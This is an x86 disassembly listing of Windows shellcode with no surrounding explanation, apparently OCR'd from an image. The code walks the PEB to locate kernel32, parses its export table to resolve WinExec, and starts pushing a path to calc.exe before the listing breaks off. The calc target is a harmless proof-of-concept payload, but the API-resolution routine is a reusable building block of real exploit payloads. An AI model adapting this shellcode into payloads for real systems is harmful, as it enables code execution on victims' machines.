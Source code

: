 ```
  401000:       50                      push   eax
  401001:       53                      push   ebx
  401002:       51                      push   ecx
  401003:       52                      push   edx
  401004:       56                      push   esi
  401005:       57                      push   edi
  401006:       55                      push   ebp
  401007:       89 e5                   mov    ebp,esp
  401009:       83 ec 18                sub    esp,0x18
  40100c:       31 f6                   xor    esi,esi
  40100e:       56                      push   esi
  40100f:       6a 63                   push   0x63
  401011:       66 68 78 65             pushw  0x6578
  401015:       68 57 69 6e 45          push   0x456e6957
  40101a:       89 65 fc                mov    DWORD PTR [ebp-0x4],esp
  40101d:       31 f6                   xor    esi,esi
  40101f:       64 8b 5e 30             mov    ebx,DWORD PTR fs:[esi+0x30]
  401023:       8b 5b 0c                mov    ebx,DWORD PTR [ebx+0xc]
  401026:       8b 5b 14                mov    ebx,DWORD PTR [ebx+0x14]
  401029:       8b 1b                   mov    ebx,DWORD PTR [ebx]
  40102b:       8b 1b                   mov    ebx,DWORD PTR [ebx]
  40102d:       8b 5b 10                mov    ebx,DWORD PTR [ebx+0x10]
  401030:       89 5d f8                mov    DWORD PTR [ebp-0x8],ebx
  401033:       31 c0                   xor    eax,eax
  401035:       8b 43 3c                mov    eax,DWORD PTR [ebx+0x3c]
  401038:       01 d8                   add    eax,ebx
  40103a:       8b 40 78                mov    eax,DWORD PTR [eax+0x78]
  40103d:       01 d8                   add    eax,ebx
  40103f:       8b 48 24                mov    ecx,DWORD PTR [eax+0x24]
  401042:       01 d9                   add    ecx,ebx
  401044:       89 4d f4                mov    DWORD PTR [ebp-0xc],ecx
  401047:       8b 78 20                mov    edi,DWORD PTR [eax+0x20]
  40104a:       01 df                   add    edi,ebx
  40104c:       89 7d f0                mov    DWORD PTR [ebp-0x10],edi
  40104f:       8b 50 1c                mov    edx,DWORD PTR [eax+0x1c]
  401052:       01 da                   add    edx,ebx
  401054:       89 55 ec                mov    DWORD PTR [ebp-0x14],edx
  401057:       8b 50 14                mov    edx,DWORD PTR [eax+0x14]
  40105a:       31 c0                   xor    eax,eax
  40105c:       8b 7d f0                mov    edi,DWORD PTR [ebp-0x10]
  40105f:       8b 75 fc                mov    esi,DWORD PTR [ebp-0x4]
  401062:       31 c9                   xor    ecx,ecx
  401064:       fc                      cld
  401065:       8b 3c 87                mov    edi,DWORD PTR [edi+eax*4]
  401068:       01 df                   add    edi,ebx
  40106a:       66 83 c1 08             add    cx,0x8
  40106e:       f3 a6                   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
  401070:       74 0a                   je     0x40107c
  401072:       40                      inc    eax
  401073:       39 d0                   cmp    eax,edx
  401075:       72 e5                   jb     0x40105c
  401077:       83 c4 26                add    esp,0x26
  40107a:       eb 3f                   jmp    0x4010bb
  40107c:       8b 4d f4                mov    ecx,DWORD PTR [ebp-0xc]
  40107f:       8b 55 ec                mov    edx,DWORD PTR [ebp-0x14]
  401082:       66 8b 04 41             mov    ax,WORD PTR [ecx+eax*2]
  401086:       8b 04 82                mov    eax,DWORD PTR [edx+eax*4]
  401089:       01 d8                   add    eax,ebx
  40108b:       31 d2                   xor    edx,edx
  40108d:       52                      push   edx
  40108e:       68 2e 65 78 65          push   0x6578652e
  401093:       68 63 61 6c 63          push   0x636c6163
  401098:       68 6d 33 32 5c          push   0x5c32336d
```